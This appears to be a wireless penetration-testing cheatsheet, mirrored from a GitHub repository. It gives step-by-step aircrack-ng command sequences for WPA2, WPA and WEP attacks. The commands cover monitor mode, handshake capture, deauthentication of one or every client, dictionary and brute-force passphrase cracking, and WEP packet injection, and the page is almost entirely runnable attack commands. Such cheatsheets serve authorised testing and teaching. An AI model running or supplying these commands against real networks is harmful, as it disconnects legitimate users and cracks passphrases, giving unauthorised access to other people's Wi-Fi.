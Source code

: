 ```bash
airmon-ng start wlan<NUM> # Put into monitor mode
airmon-ng stop wlan<NUM> # End monitor mode
```

Updated Mirror from [GitHub OlivierLaflamme/Cheatsheet-God - Cheatsheet_WirelessTesting.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_WirelessTesting.txt); ﻿[[WPA2]] PSK attack with `aircrack-ng` suite.
```bash
ifconfig wlan1 # check wireless IFace
sudo airmon-ng check kill  # kill issue causing processes
sudo airmon-ng start wlan1 # start monitor mode
sudo airodump-ng wlan1mon  # start capturing
sudo airodump-ng --bssid 64:66:B3:6E:B0:8A -c 11 wlan1mon -w output
sudo aireplay-ng --deauth 5 -a 64:66:B3:6E:B0:8A wlan1mon # deauthenticate the client  
sudo aircrack-ng output-01.cap dict # crack the passphrase
```

Updated Mirror from [GitHub OlivierLaflamme/Cheatsheet-God - Cheatsheet_WirelessTesting.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_WirelessTesting.txt); [[WPA]] PSK attack with `aircrack-ng` suite:
```bash
# Place your wireless card into Monitor Mode
airmon-ng start wlan0
# Detect all available wireless AP’s and clients
airodump-ng mon0
# Setting adapter channel
iwconfig mon0 channel <channel_number>
# Capturing the four-way handshake
airodump-ng --channel <channel_number> --bssid <bssid> --write capture mon0
# You can capture the handshake passively (it takes time) or de-authenticate a client.

# De-authentication attack
aireplay-ng --deauth 3 -a <BSSID> -c <client_mac> mon0
# Deauth every client - 
aireplay-ng -0 5 -a <bssid> mon0
# Dictionary Attack
aircrack-ng -w passwords.lst capture-01.cap
# Brute force Attack
crunch 8 8 0123456789 | aircrack-ng -e "Name of Wireless Network" -w - /root/home/wpa2.eapol.cap
```

Updated Mirror from [GitHub OlivierLaflamme/Cheatsheet-God - Cheatsheet_WirelessTesting.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_WirelessTesting.txt); [[WEP]] attack with `aircrack-ng` suite:
```bash
# Place your wireless card into Monitor Mode
airmon-ng start wlan0
# Detect all available wireless AP’s and clients
airodump-ng mon0
# Setting adapter channel
iwconfig mon0 channel <channel_number>
airodump-ng -c (channel) -w (file name) --bssid (bssid) (interface)
aireplay-ng -1 0 -a (bssid) -h 00:11:22:33:44:55 -e (essid) (interface)
aireplay-ng -3 -b (bssid) -h 00:11:22:33:44:55 (interface)
aircrack-ng -b (bssid) (file name-01.cap)
```
